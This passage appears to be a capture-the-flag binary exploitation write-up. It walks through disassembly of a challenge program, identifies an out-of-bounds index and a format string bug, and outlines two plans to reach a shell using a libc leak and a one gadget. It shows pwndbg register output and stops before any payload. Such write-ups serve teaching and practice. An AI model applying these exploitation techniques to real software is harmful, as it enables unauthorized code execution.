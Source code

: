 So

```sh
.text:0000000000400B56                 mov     eax, [rbp+var_74]
.text:0000000000400B59                 cdqe
.text:0000000000400B5B                 lea     rdx, ds:0[rax*8]
```

Our index now is at `[rbp+var_74]` and is moved to `eax` and the `cdqe` instruction then converts this 32-bit value to a 64-bit one in `rax`, preparing it for further calculations. And then the `lea` (Load Effective Address) instruction computes an address based on the given expression. Here, it multiplies the rax (the 64-bit index) by 8. Since each element (a pointer) in a 64-bit system occupies 8 bytes, multiplying the index by 8 gives the correct byte offset from the base address of the array. And last one is to add that index with the base address of the array
```sh
.text:0000000000400B63                 lea     rax, robobirdNames
.text:0000000000400B6A                 add     rax, rdx
```

And at the end of the function, when it about to return it will `printf(s);`, this will give us a `Format String Bug`

# Exploit Development

So we all know how the program works, so let's start with the exploit.

Because there is no `Buffer Overflow` here (we can try to int cyclic string to test), we have `OOB` and `Format String Bug`. So I will point to you 2 ways to exploit this binary. The first is using `OOB` to leak libc address and then using `one gadget` to get a shell. The second one uses only `Format String Bug`

## Method 1

Okay, we know that the offset from `robobirdNames[0]` to `puts@GOT` above so I'll not talk about that here. The problem here is how we can perform `one gadget` with no `Buffer Overflow`.

The answer is yes, because we have `Format String`, although the length of our input is just `106` but when you try to give the program with `106` input length we can see a special thing:

```sh
pwndbg> cyclic 106
aaaaaaaabaaaaaaacaaaaaaadaaaaaaaeaaaaaaafaaaaaaagaaaaaaahaaaaaaaiaaaaaaajaaaaaaakaaaaaaalaaaaaaamaaaaaaana
pwndbg> ni
aaaaaaaabaaaaaaacaaaaaaadaaaaaaaeaaaaaaafaaaaaaagaaaaaaahaaaaaaaiaaaaaaajaaaaaaakaaaaaaalaaaaaaamaaaaaaana
0x0000000000400bbb in operation ()
LEGEND: STACK | HEAP | CODE | DATA | WX | RODATA
──────────────────────────────────────────────────────────[ REGISTERS / show-flags off / show-compact-regs off ]──────────────────────────────────────────────────────────
 RAX  0x7fffffffdb70 ◂— 'aaaaaaaabaaaaaaacaaaaaaadaaaaaaaeaaaaaaafaaaaaaagaaaaaaahaaaaaaaiaaaaaaajaaaaaaakaaaaaaalaaaaaaamaaaaaaan'
 RBX  0x400c60 (__libc_csu_init) ◂— push r15
*RCX  0x7ffff7f0ffd2 (read+18) ◂— cmp rax, -0x1000 /* 'H=' */
*RDX  0
*RDI  0x7ffff7ff07f0 ◂— 0
*RSI  0x7ffff7feea03 (_IO_2_1_stdin_+131) ◂— 0xff07f0000000006e /* 'n' */
*R8   0x7fffffffdb70 ◂— 'aaaaaaaabaaaaaaacaaaaaaadaaaaaaaeaaaaaaafaaaaaaagaaaaaaahaaaaaaaiaaaaaaajaaaaaaakaaaaaaalaaaaaaamaaaaaaan'
*R9   0
*R10  0x7ffff7e06070 ◂— 0
 R11  0x246
 R12  0x400820 (_start) ◂— xor ebp, ebp
 R13  0x7fffffffdcf0 ◂— 1
 R14  0
 R15  0
```